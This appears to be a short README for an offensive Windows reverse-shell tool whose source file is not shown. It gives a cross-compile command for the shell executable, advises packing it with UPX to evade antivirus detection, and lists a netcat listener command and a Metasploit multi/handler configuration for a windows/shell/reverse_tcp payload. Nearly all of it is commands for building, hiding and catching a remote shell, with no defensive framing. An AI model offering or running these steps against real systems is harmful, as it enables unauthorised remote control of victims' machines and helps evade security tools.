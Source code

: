 # Compile it
````
i686-w64-mingw32-g++ shell.cpp -o shell.exe -lws2_32 -lwininet -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc
````
## After Compile the exe file then use UPX (https://upx.github.io/) for (AV) Evasion


# Start the netcat Listener
````
 nc -lvnp <port number>
 ````
 
 # Metasploit Handler
 ````
  use exploit/multi/handler
  set PAYLOAD windows/shell/reverse_tcp
  set LHOST <Local IP>
  set LPORT <Local Port>
  exploit -j -z 
  ````
